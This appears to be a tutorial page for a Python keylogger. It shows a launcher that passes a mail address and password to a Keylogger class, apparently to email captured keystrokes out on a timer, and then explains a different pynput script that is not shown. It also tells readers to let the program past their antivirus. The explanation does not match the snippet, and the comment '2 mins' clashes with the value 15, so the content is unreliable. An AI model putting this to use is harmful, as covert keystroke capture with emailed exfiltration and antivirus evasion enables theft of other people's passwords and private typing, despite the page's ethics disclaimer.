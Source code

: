 #### Here is the run-py code for the advanced code: 
```python
import keylogger

logger = keylogger.Keylogger(15, "mail", "pass") # Every 2 mins
logger.launch()
```

### How the Codes Works

- **Importing Modules**: We import the `keyboard` module from `pynput` to monitor keyboard events.
- **Callback Function `on_press`**:
  - This function is called whenever a key is pressed.
  - It opens the log file `keylog.txt` in append mode.
  - It writes the character of the key pressed to the log file. If the key doesn't have a character representation (like special keys), it writes the key itself.
- **Callback Function `on_release`**:
  - This function is called whenever a key is released.
  - If the `Esc` key is pressed, it stops the listener.
- **Setting Up the Listener**:
  - We create a `Listener` object from `pynput.keyboard` and pass the `on_press` and `on_release` callback functions.
  - The listener runs indefinitely, capturing and logging all keystrokes until the `Esc` key is pressed.

### Conclusion

Creating a keylogger can be a valuable learning exercise for understanding how keystroke logging works and the potential risks associated with it. However, it's important to use this knowledge ethically and legally. Unauthorized keylogging is illegal and unethical. Use this information responsibly and ensure you have permission before monitoring any device.

PS: Before you launch this to try it out, keep in mind that your antivirus program f.eks Windows defender on windows, will and should caught this ( if it doesent, then you have a crappy antivirus, thats not doing its job) thus making it hard to run. to run this, u’l have to allow it from your computer. 

💙 Happy coding and may your programs always compile flawlessly! 💙
